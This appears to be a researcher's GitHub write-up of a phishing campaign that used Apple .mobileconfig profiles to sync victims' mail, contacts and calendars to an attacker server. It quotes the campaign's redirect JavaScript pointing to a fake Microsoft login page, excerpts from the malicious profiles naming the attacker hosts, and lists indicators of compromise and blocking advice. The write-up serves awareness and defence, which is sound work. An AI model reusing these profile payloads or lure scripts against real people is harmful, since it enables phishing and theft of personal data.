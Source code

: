 # Phishing-apple-mobileconfig-breakdown
Analysis of a phishing campaign using Apple `.mobileconfig` profiles for email, contacts, and calendar exfiltration.

## Background

This repository was created using the files and information from a phishing email I personally received.  
I regularly analyze phishing attempts I encounter, both out of curiosity and to stay aware of evolving techniques. In this case, while the email itself was part of a typical mass phishing campaign and used fairly standard methods, I chose to document it here as a **learning resource** for others.  
The campaign leverages Apple `.mobileconfig` profiles which may be useful for those studying mobile or configuration-based threats.

**Don't open the `.mobileconfig` files on an iPhone**
The phishing site is likely down by the time I post this but it may still attempt installing profiles on your phone.

---


![82628182](https://github.com/user-attachments/assets/d2108cb0-d1e9-4708-a62b-8f1186df4aba)




## Summary

This repository documents a phishing campaign observed in May 2025 that targets Apple device users by abusing `.mobileconfig` files — a lesser-known but legitimate configuration mechanism used on iOS and macOS systems. The campaign delivers three malicious configuration profiles via email, each designed to silently configure the victim’s device for data exfiltration.

Once installed, these profiles automatically connect the victim's device to attacker-controlled infrastructure by:
- Adding a **malicious IMAP/SMTP email account**
- Syncing the device's **contacts** via CardDAV
- Accessing the user's **calendar** via CalDAV

All payloads are disguised as part of a “Secure Setup” and reference domains that appear vaguely professional (e.g., `eu40.1host.gr`). While the phishing email itself was generic and mass-distributed.

---

## Key Findings

- Delivered via phishing email impersonating Microsoft  
- `.mobileconfig` profiles install silently on iOS/macOS devices  
- Targets:
  - **Mail** (`com.apple.mail.managed`)
  - **Contacts** (`com.apple.carddav.account`)
  - **Calendar** (`com.apple.caldav.account`)
- Backend controlled by attacker at `mail.blutr.gr`  
- SSL misconfiguration (port 2080) used to avoid detection  
- Redirection script used to fake legitimacy and lure users to spoofed login page  

---

## Email Payload Overview

**Sender (spoofed):**
```
info.mail.mr@mi-robotic.com
```

**Observed Subject:**
```
Microsoft Secure Document Access
```

**Malicious Attachments:**
- `email-gdgraphic.mobileconfig`
- `carddav-gdgraphic.mobileconfig`
- `caldav-gdgraphic.mobileconfig`

---

## Redirection JavaScript

This JavaScript is embedded in a fake Billing Details button:

```javascript
setTimeout(() => {
  document.getElementById("loader").style.display = 'block';
  document.getElementById("success").style.display = 'block';
}, 100);

setTimeout(() => {
  window.location.href = "https://live.microsoft.outh.sso.50-6-202-90.cprapid.com/?Xkjvaksk121asIghlasdqwe";
}, 1000);
```

### Purpose:
- Displays a fake success/loading screen
- The portion of the url "https://live.microsoft.outh.sso." is added to make the link seem legitimate.
- Redirects to their phishing site impersonating Microsoft’s login page. 
- Uses `cprapid.com` webhosting company where the attacker is hosting their landing page.

---

## `.mobileconfig` Payloads Breakdown

### 1. Mail Account Configuration

```xml
<key>PayloadType</key>
<string>com.apple.mail.managed</string>
<key>EmailAddress</key>
<string>blutrgr@eu40.1host.gr</string>
<key>IncomingMailServerHostName</key>
<string>mail.blutr.gr</string>
<key>IncomingMailServerPortNumber</key>
<integer>993</integer>
<key>OutgoingMailServerPortNumber</key>
<integer>465</integer>
```

- Configures Apple Mail with IMAP/SMTP  
- SSL used on standard ports (993/465)  
- Server controlled by attacker  
- Enables attacker to monitor or send mail from the device  

---

### 2. CardDAV (Contacts)

```xml
<key>PayloadType</key>
<string>com.apple.carddav.account</string>
<key>CardDAVHostName</key>
<string>mail.blutr.gr:2080</string>
```

- Syncs the user’s address book with the attacker’s server  
- Port 2080 is suspicious — not standard for SSL or CardDAV  
- Can exfiltrate names, phone numbers, and email addresses  

---

### 3. CalDAV (Calendar)

```xml
<key>PayloadType</key>
<string>com.apple.caldav.account</string>
<key>CalDAVHostName</key>
<string>mail.blutr.gr</string>
<key>CalDAVPort</key>
<integer>2080</integer>
```

- Syncs user calendar to attacker infrastructure  
- May enable the injection of malicious or misleading events  

---

## Indicators of Compromise (IOCs)

| Type            | Value                                                  |
|-----------------|--------------------------------------------------------|
| Email           | `blutrgr@eu40.1host.gr`                                |
| Hostname        | `mail.blutr.gr`                                        |
| Fake MS login   | `live.microsoft.outh.sso.50-6-202-90.cprapid.com`      |
| Ports           | 993, 465, **2080**                                     |
| File Types      | `.mobileconfig`                                        |
| Payload Types   | `com.apple.mail.managed`, `com.apple.carddav.account`, `com.apple.caldav.account` |

---

## Mitigation and Detection

### For Individuals:
- Never install `.mobileconfig` files unless provided by verified IT personnel  
- On iOS: **Settings > General > VPN & Device Management**  
- On macOS: **System Settings > Profiles**

### For Organizations:
- Block `.mobileconfig` attachments at email gateway  
- Monitor or block outbound traffic to:
  - `mail.blutr.gr`
  - `*.1host.gr`
  - `*.cprapid.com` (especially from Apple devices)
- Disable unmanaged profile installation via MDM policies  
- Watch for CardDAV/CalDAV traffic over non-standard ports (e.g. 2080)

---

## Conclusion

This campaign demonstrates a clever and low-interaction method of data exfiltration using trusted Apple device features. By leveraging `.mobileconfig` profiles, attackers bypass traditional phishing detection and gain persistent access to sensitive information.

### This repository contains:
- Sample redacted profiles for reference (`.mobileconfig` file's)
- Indicators of compromise.
- Write-up to raise awareness of configuration profile abuse.
   


